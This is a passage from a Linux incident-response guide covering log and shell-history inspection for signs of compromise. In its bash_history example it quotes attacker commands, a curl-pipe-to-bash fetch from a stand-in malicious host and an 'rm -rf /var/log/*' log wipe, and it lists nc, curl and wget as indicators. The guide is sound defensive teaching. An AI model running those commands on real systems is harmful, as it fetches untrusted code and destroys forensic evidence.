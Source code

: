 ### grep -i "ssh" /var/log/auth.log

Shows log lines related to SSH connections (success and failure).

```bash
grep -i "ssh" /var/log/auth.log
```

Suspicious output example:

```bash
Accepted password for root from 203.0.113.5 port 50100 ssh2
```
**What to look for:**
- Connections from public or unknown IPs
- Activity outside normal hours

### journalctl -xe

Displays critical system events, including failures, access, and service errors.

```bash
journalctl -xe
```

Suspicious output example:

```bash
sshd[1402]: Failed password for invalid user admin from 198.51.100.77 port 41442
```
**What to look for:**
- Services repeatedly failing
- Activity related to sshd, cron, network, bash

### cat ~/.bash_history
Shows the last commands run by the current user in their terminal.

```bash
cat ~/.bash_history
```

Suspicious output example:

```bash
curl http://malicious.site/shell.sh | bash
chmod +x /tmp/cleaner.sh
rm -rf /var/log/*
```
**What to look for:**
- Commands related to network connections (nc, curl, wget, scp)
- Manipulation of logs or sensitive files
- Scripts launched from suspicious locations

## Step 6: Review Network and Firewall

Network traffic and firewall rules can reveal a lot about activity on a compromised system. Attackers often open additional ports, set up outbound tunnels, or modify firewall rules to maintain control or evade detection. Inspecting open ports and active rules is key to detecting suspicious connections or unauthorized outbound traffic.
